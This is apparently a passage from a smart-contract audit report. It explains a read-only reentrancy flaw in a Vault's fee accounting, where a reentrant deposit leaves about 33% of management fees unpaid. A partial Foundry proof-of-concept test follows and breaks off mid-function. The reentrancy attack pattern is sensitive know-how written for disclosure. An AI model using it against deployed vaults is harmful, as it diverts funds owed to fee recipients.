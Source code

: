 With the deposit and current amount of shares used for the PoC, it can be seen how the reentrant call yields in a total of `7.119e16` minted shares whereas a normal non-reentrant flow mints `1.06e17`. This means that a `33%` of the fees are not transferred to the recipient.

The output was built by adding console logs inside each relevant Vault's function. To reproduce both non reentrant and reentrant scenarios comment the token hook and the respective parts of the PoC.

```solidity
  function test__readOnlyReentrancy() public {
    vm.prank(alice);
    MockERCHook newToken = new MockERCHook("ERCHook", "HERC", 18);
    MockERC4626 newAdapter = new MockERC4626(IERC20(address(newToken)), "Mock Token Vault", "vwTKN");
    
    address vaultAddress = address(new Vault());

    Vault newVault = Vault(vaultAddress);
    newVault.initialize(
      IERC20(address(newToken)),
      IERC4626(address(newAdapter)),
      VaultFees({ deposit: 0, withdrawal: 0, management: 1e17, performance: 0 }),
      feeRecipient,
      address(this)
    );

    newToken.mockSetVault(newVault);
    assertTrue(newToken.vault() == newVault);

    MockERC4626 newProposedAdapter = new MockERC4626(IERC20(address(newToken)), "Mock Token Vault", "vwTKN");
    uint256 depositAmount = 100 ether;
    vm.label(address(newAdapter), "OldAdapter");
    vm.label(address(newProposedAdapter), "ProposedAdapter");

    // Deposit funds to generate some shares
    newToken.mint(alice, depositAmount);
    newToken.mint(bob, depositAmount);

    vm.startPrank(alice);
    newToken.approve(address(newVault), depositAmount);
    newVault.deposit(10 ether, alice);
    newToken.transfer(address(newVault), 0.01 ether);
    vm.stopPrank();

    vm.startPrank(bob);
    newToken.approve(address(newVault), depositAmount);
    newVault.deposit(10 ether, bob);
    vm.stopPrank();

    // Increase assets in asset Adapter 
    newToken.mint(address(adapter), depositAmount);
 
    // Update current rewards
    console.log("\n===== Called takeManagementAndPerformanceFees() =====");
    newVault.takeManagementAndPerformanceFees();
    vm.warp(block.timestamp + 10 days);

    // Preparation to change the adapter
    newVault.proposeAdapter(IERC4626(address(newProposedAdapter)));
    vm.warp(block.timestamp + 3 days + 100);

    // // Normal call
    // vm.prank(bob);
    // newVault.deposit(10 ether, bob);
    // vm.expectEmit(false, false, false, true, address(newVault));
```